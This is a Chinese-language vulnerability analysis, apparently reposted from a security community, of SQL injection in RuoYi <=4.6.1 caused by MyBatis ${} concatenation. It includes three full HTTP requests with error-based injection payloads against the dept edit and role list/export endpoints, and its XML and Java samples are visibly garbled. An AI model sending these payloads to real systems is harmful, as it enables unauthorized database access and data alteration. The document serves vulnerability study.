## 核对与使用边界


本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：实验4.6.1、声称&lt;=4.6.1；后台部门修改/角色读取权限及数据权限切面行为需说明

代码与实验材料：ancestors update与params.dataScope list/export回溯有价值；XML、Java、HTTP全被压缩且部分属性丢失

来源证据范围：跳跳糖公众号原研究经MrWQ转，缺代码tag/补丁

- **适用与权限边界（1）**：应用用户可控性不能由${}一项证明；依据：dataScope常由服务端切面注入，需确认具体版本清理/角色分支，不能遍历$就断言所有可注入。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **代码与转录边界（2）**：源码与报文转录损坏；依据：DOCTYPE configurationPUBLIC、property无name/value、mapper闭合在select之前，HTTP头无换行。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **操作与副作用边界（3）**：写操作副作用与版本修复未交代；依据：部门edit更新状态，不能当只读检测；只有影响上界无补丁。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 若依 (RuoYi) 管理系统后台 sql 注入漏洞分析

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzkxNDMxMTQyMg==&mid=2247493177&idx=1&sn=d927ba04171466841222528403f6e2d3&chksm=c172f7a8f6057ebeeffb3e9439b0d9e7b8cb45a28f2d703c537037fc2895b0aecb193828e277&scene=21&sessionid=1661481923&key=d8221f16b48f88c871ae847b008b10388247749d7463eb77aa3d492ed05b5d208577c0692984b114e5070e2af77339000f97b3650866d6ddbc3d0e4fd233672f49f80927ce48587be205dd7ae391b8346994503f676f4b6730566dd1bc4e180d90160577eb39c77f37f91ae1097c625d0c81356a93cd9994b5bcca136a59813d&ascene=15&uin=MTA3Mzc3OTIzNQ==&devicetype=Windows%20Server%202016%20x64&version=63070517&lang=zh_CN&session_us=gh_9c93932cfcf8&exportkey=Aec4lA6mu2mOBRgMvREj%20AI=&acctmode=0&pass_ticket=oG5tVTdM46BqDULFeP1XUChlivJaeyzcE871u61GRvupgy6AnaYat1bkFQctsNYY&wx_header=0&fontgear=2#wechat_redirect)

******点击****蓝****字 / 关注我们******

若依管理系统是基于`SpringBoot`框架开发的，并利用`MyBatis`框架进行数据库操作。在 RuoYi <=4.6.1 版本中后台存在 sql 注入漏洞，本着对 MyBatis 框架中 sql 注入学习的态度，对该漏洞进行了以下分析。

### 0x1 关于 Mybatis

Mybatis 是个对 jdbc 进行简单封装的持久层框架。MyBatis 使用简单的 XML 或注解用于配置和原始映射 (更多的是以 xml 方式写入到 xml 文件中)，将接口和 Java 的 POJOs（Plain Ordinary Java Objects，普通的 Java 对象）映射成数据库中的记录。

#### 0x11 Mybatis 框架架构

(1) 加载配置：配置来源于两个地方，一处是配置文件，一处是 Java 代码的注解，将 SQL 的配置信息加载成为一个个 MappedStatement 对象（包括了传入参数映射配置、执行的 SQL 语句、结果映射配置），存储在内存中。

(2)SQL 解析：当 API 接口层接收到调用请求时，会接收到传入 SQL 的 ID 和传入对象（可以是 Map、JavaBean 或者基本数据类型），Mybatis 会根据 SQL 的 ID 找到对应的 MappedStatement，然后根据传入参数对象对 MappedStatement 进行解析，解析后可以得到最终要执行的 SQL 语句和参数。

(3)SQL 执行：将最终得到的 SQL 和参数拿到数据库进行执行，得到操作数据库的结果。

(4) 结果映射：将操作数据库的结果按照映射的配置进行转换，可以转换成 HashMap、JavaBean 或者基本数据类型，并将最终结果返回。

#### 0x12 Mybatis 配置文件及 sql 映射

Mybatis 的全局配置文件——`SqlMapConfig.xml`。在`SqlMapConfig.xml`中配置了`dataSource`（数据源）、`mappers`（映射器) 等，内容如下：

```
<?xml version="1.0" encoding="UTF-8" ?><!DOCTYPE configurationPUBLIC "-//mybatis.org//DTD Config 3.0//EN""http://mybatis.org/dtd/mybatis-3-config.dtd"><environments default="development"><environment id="development"><transactionManager type="JDBC" /><!-- 数据库连接池 --><dataSource type="POOLED"><property jdbc:mysql://localhost:3306/mybatis?characterEncoding=utf-8" /><property  /></dataSource></environment></environments><!-- 加载映射文件 --><mappers>    <mapper resource="mybatistet/User.xml" /></mappers></configuration>
```

其中，加载的映射文件`mybatistet/User.xml`中定义了 sql 语句与 po 类的映射关系。po 类通常与数据库中的数据表相照应。比如定义 User 类

```
package mybatis;public class User {    public int id;    public String name;    public int age;    public String email;}
```

举例，根据 id 查询用户，则在映射文件`mybatistet/User.xml`中进行以下配置：

```
<?xml version="1.0" encoding="UTF-8" ?><!DOCTYPE mapperPUBLIC "-//mybatis.org//DTD Mapper 3.0//EN""http://mybatis.org/dtd/mybatis-3-mapper.dtd"><mapper namespace="mybatistest"></mapper><select id="findUserById" parameterType="int" resultType="mybatis.User">select * from user where id = #{id}</select>
```

`parameterType`：定义输入到 sql 中的映射类型，`#{id}`表示使用`preparedstatement`预处理设置占位符号并将输入变量 id 传到 sql。

`resultType`：定义结果映射类型。

其中，在进行 sql 语句查询是，MyBatis 支持两种参数符号，一种是`#`，另一种是`$`。`#`使用预编译向占位符中设置值，可有效防止 sql 注入。`$`使用拼接 SQL，也是触发 sql 注入的关键。

测试:

```
public class TestMybatis {    public static void main(String[] args) throws Exception{        String resource = "SqlMapConfig.xml";        InputStream inputStream = Resources.getResourceAsStream(resource);        SqlSessionFactory sqlSessionFactory = new SqlSessionFactoryBuilder().build(inputStream);        SqlSession  sqlSession = sqlSessionFactory.openSession();        User user = sqlSession.selectOne("mybatistest.findUserById", 10);        System.out.println(user);    \}\}
```

以上就是利用 Mybatis 框架进行 sql 查询的一些前置知识，下面分析如何在 RuoYi 中触发 sql 注入。

### 0x2 Ruoyi (4.6.1 版本) 后台 sql 注入分析

ruoyi 中关于 mybatis 的相关配置在`application.yml`文件中：

image.png 由以上配置可知，所有的 mapper.xml 映射文件在 classpath*:mapper//*Mapper.xml 中。因此，有个简单粗暴的方法，遍历所有 classpath:mapper/*/*Mapper.xml 文件，找包含 "`$`" 字符的文件。于是定位到`/resources/mapper/system/SysDeptMapper.xml`文件。 `SysDeptMapper.xml`配置文件里内容为:image.png 很明显`ancestors`参数存在 sql 注入，其中完整语句是`update sys_dept set status=0 where dept_id in (ancestors的值)`。因此可通过该 update 操作触发 sql 注入。那么如何设计请求来触发该 update 数据操作呢？通过`SysDeptMapper.xml`文件中的`<mapper namespace="com.ruoyi.system.mapper.SysDeptMapper">`定位到 Dao 层，在 dao 层对应的`com.ruoyi.system.mapper.SysDeptMapper`类中找到该方法：image.png 在基于 springboot 框架中，可通过以下 3 种方式进行 sql 操作：1、业务层调用 dao 层 2、controller 调用 Service 层间接调用 dao 层 3、controller 直接调用 dao 层 在 RuoYi 中，找到在 service 层的`com.ruoyi.system.service.impl.SysDeptServiceImpl`类的`updateParentDeptStatus()`方法中可调用到`updateDeptStatus(SysDept dept)`方法。image.png 而`com.ruoyi.system.service.impl.SysDeptServiceImpl#updateParentDeptStatus`又是通过`com.ruoyi.system.service.impl.SysDeptServiceImpl#updateDep`方法调用。image.png 因此最后定位到`SysDeptController`的`editSave()`方法可触发该调用。image.png 局部调用链如下图：image.png 由此最终利用如下：

```
POST /system/dept/edit HTTP/1.1Host: 127.0.0.1Cache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Sec-Fetch-Site: same-originSec-Fetch-Mode: navigateSec-Fetch-User: ?1Sec-Fetch-Dest: documentReferer: http://127.0.0.1/loginAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: JSESSIONID=1b3960f0-fd75-4bc5-a130-9e822c5c9e5dConnection: closeContent-Type: application/x-www-form-urlencodedContent-Length: 111DeptName=1&DeptId=100&ParentId=12&Status=0&OrderNum=1&ancestors=0)or(extractvalue(1,concat((select user()))));#
```

image.png 按照同样的方式也可定位到`/resources/mapper/system/SysRoleMapper.xml`文件。image.png 完整的 sql 语句应该是: `select distinct r.role_id, r.role_name, r.role_key, r.role_sort, r.data_scope, r.status, r.del_flag, r.create_time, r.remark from sys_role r left join sys_user_role ur on ur.role_id = r.role_id left join sys_user u on u.user_id = ur.user_id left join sys_dept d on u.dept_id = d.dept_id where r.del_flag = '0' ${params.dataScope}` 可见`${params.dataScope}`能触发 sql 注入。按照以上同样的方式，根据`SysRoleMapper.xml`文件中的`<mapper namespace="com.ruoyi.system.mapper.SysRoleMapper">`定位到`com.ruoyi.system.mapper.SysRoleMapper`类的`selectRoleList`方法：image.png 然后回溯调用`selectRoleList`方法的 service，定位到`com.ruoyi.system.service.impl.SysRoleServiceImpl#selectRoleList`：image.png 最后查找调用`com.ruoyi.system.service.impl.SysRoleServiceImpl#selectRoleList`方法的 controller——`com.ruoyi.web.controller.system.SysRoleController`，在其中的`list()`方法和`export()`方法均调用了`selectRoleList`方法：image.png 至此可构造如下 poc 进行 sql 注入利用：

```
POST /system/role/list HTTP/1.1Host: 127.0.0.1Cache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Sec-Fetch-Site: same-originSec-Fetch-Mode: navigateSec-Fetch-User: ?1Sec-Fetch-Dest: documentReferer: http://127.0.0.1/loginAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: JSESSIONID=906c97c0-7058-4645-a87a-d15a940f4841Connection: closeContent-Type: application/x-www-form-urlencodedContent-Length: 71params[dataScope]=and extractvalue(1,concat(0x7e,(select user()),0x7e))
```

image.png 或者利用`/export`接口触发 sql 注入：

```
POST /system/role/export HTTP/1.1Host: 127.0.0.1Cache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Sec-Fetch-Site: same-originSec-Fetch-Mode: navigateSec-Fetch-User: ?1Sec-Fetch-Dest: documentReferer: http://127.0.0.1/loginAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: JSESSIONID=906c97c0-7058-4645-a87a-d15a940f4841Connection: closeContent-Type: application/x-www-form-urlencodedContent-Length: 75params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))
```

image.png

### 总结

本文以 RuoYi 为例学习并整理了基于 Mybatis 框架的 sql 注入原理和场景，为高效快速挖掘基于 Mybatis 框架的 sql 注入提供一种思路和参考。

**推荐阅读：**

**[一种新的 Tomcat 内存马 - Upgrade 内存马](http://mp.weixin.qq.com/s?__biz=MzkxNDMxMTQyMg==&mid=2247493034&idx=1&sn=19da761e0945b563551d4187d174a194&chksm=c172f43bf6057d2d94affce2ed8e7c8c5f20ee5fbaa80f62ab0917851685e721eb74a5954fc6&scene=21#wechat_redirect)**

**[从偶遇 Flarum 开始的 RCE 之旅](http://mp.weixin.qq.com/s?__biz=MzkxNDMxMTQyMg==&mid=2247492910&idx=1&sn=e6fa404efaa6a37dcf42a04336202546&chksm=c172f4bff6057da9c49c82ee6cbf5796f08d56acb6c304ae9ad8b5ae56af602e923fae4868cb&scene=21#wechat_redirect)**

[二次反序列化 看我一命通关](http://mp.weixin.qq.com/s?__biz=MzkxNDMxMTQyMg==&mid=2247492579&idx=1&sn=a69fc565e55672867420444201805690&chksm=c172f272f6057b64e2aab0099a1ac4c60dad35c98fd8b9f79c70ce08378509a748fb3e68b222&scene=21#wechat_redirect)

[tabby 原理分析](http://mp.weixin.qq.com/s?__biz=MzkxNDMxMTQyMg==&mid=2247492190&idx=1&sn=609c6f4f8a1255bb4c1672ea869a7b7b&chksm=c172f3cff6057ad92b6bcd2884fa5f0762cb4f5758c11058b2a6369e14a018b43677988a385b&scene=21#wechat_redirect)

[2022UIUCTF-Spoink(Pebble 最新模板注入)](http://mp.weixin.qq.com/s?__biz=MzkxNDMxMTQyMg==&mid=2247492051&idx=1&sn=d5cedfa91a425b3c1c90350f485101d3&chksm=c172f042f605795494225dd38b724f26fd58f02d270e22cf643923876ced2133433b52e2d3f4&scene=21#wechat_redirect)

跳跳糖是一个安全社区，旨在为安全人员提供一个能让思维跳跃起来的交流平台。

跳跳糖持续向广大安全从业者征集高质量技术文章，可以是漏洞分析，事件分析，渗透技巧，安全工具等等。

通过审核且发布将予以 500RMB-1000RMB 不等的奖励，具体文章要求可以查看 “投稿须知”。

阅读更多原创技术文章，戳 “阅读全文”

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
